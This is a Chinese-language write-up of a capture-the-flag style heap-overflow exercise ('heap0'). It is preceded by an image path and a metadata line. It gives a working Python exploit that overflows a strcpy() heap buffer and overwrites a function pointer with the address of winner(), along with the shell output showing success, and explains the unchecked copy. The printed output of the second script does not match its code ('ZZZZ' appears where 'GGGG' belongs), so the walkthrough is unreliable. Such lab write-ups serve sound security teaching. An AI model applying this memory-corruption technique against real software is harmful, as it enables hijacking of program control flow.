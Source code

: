 

## 攻击目标

改变程序控制流，让`winner()`执行，输出`level passed`。



## 攻击过程

```shell
$ cat heap0.py
buffer = ""
for i in range(0x41, 0x53):
    buffer += chr(i) * 4
target = "\x64\x84\x04\x08"
print buffer + target
$ ./heap0 `python heap0.py`
data is at 0x804a008, fp is at 0x804a050
level passed
```

<img src=".\heap0-result.png" style="zoom:67%;" />



## 原理分析

分析源码可知，如果程序正常运行，应该执行`nonwinner()`，打印`level has not been passed`。

本题要利用的是`strcpy()`的溢出漏洞，它不会检查拷贝内容的长度，从而造成接收处空间的溢出。

准备一个长字符串。

```python
# exp.py
buffer = ""
for i in range(0x41, 0x5b):
    buffer += chr(i) * 4
print buffer

'''
Output: AAAABBBBCCCCDDDDEEEEFFFFZZZZHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
'''
```
